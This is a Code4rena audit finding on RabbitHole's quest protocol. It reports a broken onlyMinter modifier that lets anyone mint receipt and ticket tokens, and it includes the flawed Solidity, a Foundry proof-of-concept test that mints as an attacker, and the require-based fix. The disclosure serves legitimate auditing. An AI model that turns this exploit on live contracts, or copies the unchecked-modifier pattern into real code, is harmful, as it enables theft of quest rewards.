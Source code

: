 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-01

# [Bad implementation in minter access control for `RabbitHoleReceipt` and `RabbitHoleTickets` contracts](https://github.com/code-423n4/2023-01-rabbithole-findings/issues/608) 

# Lines of code

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/RabbitHoleReceipt.sol#L58-L61
https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/RabbitHoleTickets.sol#L47-L50


# Vulnerability details

Both `RabbitHoleReceipt` and `RabbitHoleTickets` contracts define a `mint` function that is protected by a `onlyMinter` modifier:

RabbitHoleReceipt:

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/RabbitHoleReceipt.sol#L98-L104

```solidity
function mint(address to_, string memory questId_) public onlyMinter {
    _tokenIds.increment();
    uint newTokenID = _tokenIds.current();
    questIdForTokenId[newTokenID] = questId_;
    timestampForTokenId[newTokenID] = block.timestamp;
    _safeMint(to_, newTokenID);
}
```

RabbitHoleTickets:

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/RabbitHoleTickets.sol#L83-L85

```solidity
function mint(address to_, uint256 id_, uint256 amount_, bytes memory data_) public onlyMinter {
    _mint(to_, id_, amount_, data_);
}
```

However, in both cases the modifier implementation is flawed as there isn't any check for a require or revert, the comparison will silently return false and let the execution continue:

```solidity
modifier onlyMinter() {
    msg.sender == minterAddress;
    _;
}
```

## Impact

Any account can mint any number of `RabbitHoleReceipt` and `RabbitHoleTickets` tokens.

This represents a critical issue as receipts can be used to claim rewards in quests. An attacker can freely mint receipt tokens for any quest to steal all the rewards from it.

## PoC

The following test demonstrates the issue.

```solidity
contract AuditTest is Test {
    address deployer;
    uint256 signerPrivateKey;
    address signer;
    address royaltyRecipient;
    address minter;
    address protocolFeeRecipient;

    QuestFactory factory;
    ReceiptRenderer receiptRenderer;
    RabbitHoleReceipt receipt;
    TicketRenderer ticketRenderer;
    RabbitHoleTickets tickets;
    ERC20 token;

    function setUp() public {
        deployer = makeAddr("deployer");
        signerPrivateKey = 0x123;
        signer = vm.addr(signerPrivateKey);
        vm.label(signer, "signer");
        royaltyRecipient = makeAddr("royaltyRecipient");
        minter = makeAddr("minter");
        protocolFeeRecipient = makeAddr("protocolFeeRecipient");

        vm.startPrank(deployer);

        // Receipt
        receiptRenderer = new ReceiptRenderer();
        RabbitHoleReceipt receiptImpl = new RabbitHoleReceipt();
        receipt = RabbitHoleReceipt(
            address(new ERC1967Proxy(address(receiptImpl), ""))
        );
        receipt.initialize(
            address(receiptRenderer),
            royaltyRecipient,
            minter,
            0
        );

        // factory
        QuestFactory factoryImpl = new QuestFactory();
        factory = QuestFactory(
            address(new ERC1967Proxy(address(factoryImpl), ""))
        );
        factory.initialize(signer, address(receipt), protocolFeeRecipient);
        receipt.setMinterAddress(address(factory));

        // tickets
        ticketRenderer = new TicketRenderer();
        RabbitHoleTickets ticketsImpl = new RabbitHoleTickets();
        tickets = RabbitHoleTickets(
            address(new ERC1967Proxy(address(ticketsImpl), ""))
        );
        tickets.initialize(
            address(ticketRenderer),
            royaltyRecipient,
            minter,
            0
        );

        // ERC20 token
        token = new ERC20("Mock ERC20", "MERC20");
        factory.setRewardAllowlistAddress(address(token), true);

        vm.stopPrank();
    }
    
    function test_RabbitHoleReceipt_RabbitHoleTickets_AnyoneCanMint() public {
        address attacker = makeAddr("attacker");

        vm.startPrank(attacker);

        // Anyone can freely mint RabbitHoleReceipt
        string memory questId = "a quest";
        receipt.mint(attacker, questId);
        assertEq(receipt.balanceOf(attacker), 1);

        // Anyone can freely mint RabbitHoleTickets
        uint256 tokenId = 0;
        tickets.mint(attacker, tokenId, 1, "");
        assertEq(tickets.balanceOf(attacker, tokenId), 1);

        vm.stopPrank();
    }
}
```

## Recommendation

The modifier should require that the caller is the `minterAddress` in order to revert the call in case this condition doesn't hold.

```solidity
modifier onlyMinter() {
    require(msg.sender == minterAddress);
    _;
}
```
